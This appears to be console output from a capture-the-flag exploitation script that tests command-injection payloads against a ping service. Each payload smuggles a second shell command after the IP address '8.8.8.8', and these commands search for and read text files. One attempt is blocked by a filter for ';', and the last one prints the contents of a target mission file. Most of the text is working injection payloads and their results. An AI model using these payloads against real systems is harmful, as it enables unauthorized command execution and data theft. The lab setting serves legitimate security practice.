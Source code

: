 [25/26] Testing: Find base64 patterns

================================================================================
PAYLOAD: Find base64 patterns
Command: 8.8.8.8
strings mission_briefing.txt
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.68 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.77 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.81 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.78 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 3.677/3.759/3.812/0.050 ms
/bin/sh: 2: strings: not found

================================================================================

[26/26] Testing: Read all txt files

================================================================================
PAYLOAD: Read all txt files
Command: 8.8.8.8
find . -name '*.txt' -exec head {} \;
--------------------------------------------------------------------------------
Error: Malicious character ';' detected.
================================================================================


================================================================================
Exploitation complete!
================================================================================

C:\Citadel_CTF_Writeups>python -u "c:\Citadel_CTF_Writeups\ext2.py"


[1/20] Testing: Read mission_alpha.txt

================================================================================
PAYLOAD: Read mission_alpha.txt
Command: 8.8.8.8
head /var/lib/aethercorp/missions/mission_alpha.txt
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.65 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.77 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.71 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.69 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 3.651/3.706/3.774/0.044 ms
Mission Alpha: Recon success. Target: Sector 7G
